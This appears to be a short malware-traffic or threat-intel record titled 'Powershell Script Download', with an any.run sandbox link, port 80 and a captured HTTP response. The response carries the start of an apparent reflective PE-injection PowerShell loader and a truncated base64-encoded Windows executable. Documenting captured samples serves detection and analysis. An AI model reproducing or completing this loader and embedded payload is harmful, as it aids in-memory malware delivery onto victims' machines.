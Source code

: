# Powershell Script Download

# Links:
https://app.any.run/tasks/52744a39-a55e-4460-bf06-8df59b947ddd/

# Protocols:
TCP

# Ports:
80

# Sample:

```
HTTP/1.1 200 OK
Date: Thu, 19 Dec 2019 15:04:50 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Fri, 08 Nov 2019 17:03:59 GMT
ETag: "53459-596d8c498bdc0"
Accept-Ranges: bytes
Content-Length: 341081
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive


function Invoke-UZZDHFWLYTQWMBV
{

[CmdletBinding()]
Param(
    [Parameter(Position = 0, Mandatory = $true)]
    [ValidateNotNullOrEmpty()]
    [Byte[]]
    $PEBytes,
```
```
$PEBytes32 = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA+AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAAAzZHMHdwUdVHcFHVR3BR1UTFsYVXYFHVRMWx5VdQUdVExbGVV2BR1UqvrTVHYFHVSq+tZUdAUdVHcFHFRvBR1UqvrNVHYFHVTgWxlVbAUdVOBbH1V2BR1UUmljaHcFHVQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABQRQAATAEFAEuYQ10AAAAAAAAAAOAAAiELAQ4AAK4AAADkAQAAAAAAzD0
```

